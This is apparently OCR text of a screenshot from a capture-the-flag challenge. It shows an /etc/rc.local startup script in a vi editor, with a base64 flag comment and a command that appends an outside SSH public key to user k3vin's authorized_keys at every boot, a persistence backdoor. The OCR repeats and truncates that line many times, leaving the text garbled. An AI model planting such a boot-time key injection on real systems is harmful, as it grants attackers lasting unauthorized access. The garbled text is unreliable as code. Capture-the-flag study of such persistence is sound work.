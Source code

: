 ```
#!/bin/sh                                                                       # Well played : c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=                                                                echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys                                                                        ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~               ,
                                                                ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               "/etc/rc.local" 3L, 596C                                      1,1           All zed_keys> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authori
sh/authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_k`
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys
RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
```